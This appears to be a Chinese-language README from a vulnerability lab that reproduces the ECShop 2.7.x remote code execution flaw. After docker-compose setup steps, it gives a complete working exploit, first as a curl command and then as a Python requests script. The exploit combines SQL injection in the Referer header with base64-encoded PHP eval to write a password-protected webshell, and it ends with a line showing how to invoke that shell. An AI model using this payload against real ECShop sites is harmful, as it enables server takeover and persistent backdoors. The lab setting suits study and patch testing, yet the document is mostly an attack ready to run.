


## 环境构建
```
docker-compose build 
docker-compose up -d
```

## 漏洞介绍
2.7.3 Payload
```
curl http://127.0.0.1/user.php -d 'action=login&vulnspy=eval(base64_decode($_POST[d]));exit;&d=ZmlsZV9wdXRfY29udGVudHMoJ3Z1bG5zcHkucGhwJywnPD9waHAgZXZhbCgkX1JFUVVFU1RbdnVsbnNweV0pOz8%2BJyk7' -H 'Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:3:{s:2:"id";s:3:"'"'"'/*";s:3:"num";s:201:"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca'

```



```
执行成功后会自动生成 http://127.0.0./vulnspy.php 文件，密码为 vulnspy。
访问：http://127.0.0.1/vulnspy.php?vulnspy=phpinfo();
```




python代码

```

import requests

burp0_url = "http://127.0.0.1:80/user.php"
burp0_headers = {"User-Agent": "curl/7.54.0", "Accept": "*/*", "Referer": "554fcae493e564ee0dc75bdf2ebf94caads|a:3:{s:2:\"id\";s:3:\"'/*\";s:3:\"num\";s:201:\"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--\";s:4:\"name\";s:3:\"ads\";}554fcae493e564ee0dc75bdf2ebf94ca", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close"}
burp0_data={"action": "login", "vulnspy": "eval(base64_decode($_POST[d]));exit;", "d": "ZmlsZV9wdXRfY29udGVudHMoJ3Z1bG5zcHkucGhwJywnPD9waHAgZXZhbCgkX1JFUVVFU1RbdnVsbnNweV0pOz8+Jyk7"}
requests.post(burp0_url, headers=burp0_headers, data=burp0_data)

```

## 漏洞连接
[链接一](http://www.freebuf.com/vuls/182899.html)

[链接二](http://www.vulnspy.com/cn-ecshop-2.7.x-rce-exploit/ecshop_%3C=_2.7.x_%E5%85%A8%E7%B3%BB%E5%88%97%E7%89%88%E6%9C%AC%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E9%AB%98%E5%8D%B1%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/)
